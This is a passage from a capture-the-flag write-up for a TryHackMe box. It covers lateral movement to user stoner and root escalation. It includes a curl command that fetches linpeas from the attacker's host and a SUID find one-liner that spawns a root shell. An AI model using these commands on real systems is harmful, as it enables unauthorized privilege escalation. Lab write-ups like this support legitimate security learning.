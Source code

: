 
else

    echo "Directory is not present" >> $LOG
    exit 0
fi
</pre>

<h2>Step 6: Lateral privilege escalation to stoner</h2>
<p>Naturally, I followed the trail and logged on as stoner. In the home directory of stoner, there is .secret file which is the user.txt for this box:</p>
<pre>
stoner@Vulnerable:~$ ls -al
total 20
drwxr-x--- 4 stoner stoner 4096 Aug 18 18:57 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Aug 18 18:57 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
</pre>

<h2>Step 7: Privilege escalation to root</h2>
<p>Next, I uploaded linpeas to the victim machine by hosting a python web server on the attacking machine:</p>
<pre>
python3 -m http.server 7000
</pre>
<p>On the targeted system, I downloaded the script using curl:</p>
<pre>
stoner@Vulnerable:/tmp$ curl -o linpeas.sh http://10.9.235.177:7000/linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  932k  100  932k    0     0  4107k      0 --:--:-- --:--:-- --:--:-- 4106k
</pre>
<p>Execution of linpeas revealed that the find binary had the suid permission set. Therefore, this could be easily exploited by spawning a shell gaining root:</p>
<pre>
stoner@Vulnerable:/tmp$ find . -exec /bin/bash -p \; -quit
bash-4.3# whoami
root
bash-4.3# ls /root
root.txt
</pre>
<p>Congratulations, you have successfully rooted this box!</p>
<h2>Final thoughts</h2>
<p>In general, this was an easy box. I'm not quite sure why it is ranked as easy on Tryhackme. It is worth noting that there were quite a few rabbit holes which after some got old real fast. Therefore, it was not the most fun box I have ever rooted.In summary, It was not hard but it was a bit annoying.</p>
<a href="/">Go to the Home Page</a>
